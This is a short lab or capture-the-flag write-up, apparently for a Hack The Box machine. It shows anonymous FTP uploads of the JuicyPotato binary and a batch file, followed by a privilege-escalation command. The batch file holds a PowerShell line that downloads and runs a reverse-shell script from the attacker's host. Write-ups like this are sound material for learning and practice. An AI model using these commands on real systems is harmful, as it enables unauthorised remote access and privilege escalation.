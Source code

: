 # Getting Root

## Using [JuicyPotato](https://github.com/ohpe/juicy-potato/releases)
Binary mode , to  not change the architecture  (64)
```bash
$ ftp 10.10.10.116
Connected to 10.10.10.116.
220 Microsoft FTP Service
Name (10.10.10.116:dix): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> binary
200 Type set to I.
ftp> put jp.exe 
local: jp.exe remote: jp.exe
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
347648 bytes sent in 3.49 secs (97.3528 kB/s)
ftp> put jp.exe 
local: jp.exe remote: jp.exe
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
347648 bytes sent in 3.54 secs (95.9376 kB/s)
ftp>
```
![[Pasted image 20211129091152.png]]

### Create a bat file to rev shell

```bash
$ cat eris.bat 
powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.21/rev.ps1')"
```

upload with ftp
```bash
$ ftp 10.10.10.116
Connected to 10.10.10.116.
220 Microsoft FTP Service
Name (10.10.10.116:dix): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> put eris.bat 
local: eris.bat remote: eris.bat
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
89 bytes sent in 0.00 secs (1.3473 MB/s)
ftp>
```

```powerhsell
./jp.exe -t * -p C:\users\destitute\music\eris.bat -l 9001 -c '{e60687f7-01a1-40aa-86ac-db1cbf673334}'
```
![[Pasted image 20211129092945.png]]

![[Pasted image 20211129093030.png]]
